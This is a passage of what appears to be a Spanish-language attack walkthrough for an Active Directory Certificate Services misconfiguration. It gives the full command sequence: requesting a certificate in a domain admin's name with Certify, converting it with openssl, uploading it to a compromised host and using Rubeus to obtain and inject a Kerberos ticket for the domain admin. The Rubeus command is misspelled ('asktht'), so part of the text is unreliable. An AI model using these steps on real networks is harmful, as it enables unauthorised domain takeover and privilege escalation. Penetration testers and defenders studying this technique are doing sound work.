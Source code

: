 Este exploit solo funciona porque esta configuración habilita la autenticación de servidor/cliente, lo que significa que un atacante puede especificar el UPN de un administrador de dominio (DA) y usar el certificado capturado con Rubeus para falsificar la autenticación.

Nota: Si un administrador de dominio pertenece a un grupo de usuarios protegidos, el exploit podría no funcionar correctamente. Compruébelo antes de elegir un DA como objetivo.

Solicitar el certificado de cuenta del DA con Certify

```powershell
.\Certify.exe request /template:<Nombre de la plantilla> /quiet /ca:"<Nombre de la CA>" /domain:<domain.com> /path:CN=Configuration,DC=<domain>,DC=com /altname:<Nombre alternativo del administrador de dominio> /machine
```

Esto debería devolver un certificado válido para la cuenta del DA asociada.

Los archivos `cert.pem` y `cert.key` exportados deben consolidarse en un solo archivo `cert.pem`, con un espacio entre `END RSA PRIVATE KEY` y `BEGIN CERTIFICATE`.

_Ejemplo de `cert.pem`:_

```
-----BEGIN RSA PRIVATE KEY-----
BIIEogIBAAk15x0ID[...]
[...]
[...]
-----END RSA PRIVATE KEY-----

-----BEGIN CERTIFICATE-----
BIIEogIBOmgAwIbSe[...]
[...]
[...]
-----END CERTIFICATE-----
```

#Utilizar `openssl` para convertir al formato PKCS #12

El comando `openssl` permite convertir el archivo de certificado al formato PKCS #12 (es posible que se le solicite una contraseña de exportación, que puede ser la que desee).

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Una vez exportado el archivo `cert.pfx`, cárguelo al host comprometido (esto se puede hacer de diversas maneras, como con PowerShell, SMB, `certutil.exe`, la función de carga de Cobalt Strike, etc.).

Después de cargar el archivo `cert.pfx` al host comprometido, se puede usar [Rubeus](https://github.com/GhostPack/Rubeus) para solicitar un TGT de Kerberos para la cuenta DA, que luego se importará a la memoria.

```powershell
.\Rubeus.exe asktht /user:<Nombre alternativo del administrador del dominio> /domain:<dominio.com> /dc:<IP o nombre de host del controlador de dominio> /certificate:<Ruta de la máquina local a cert.pfx> /nowrap /ptt
```
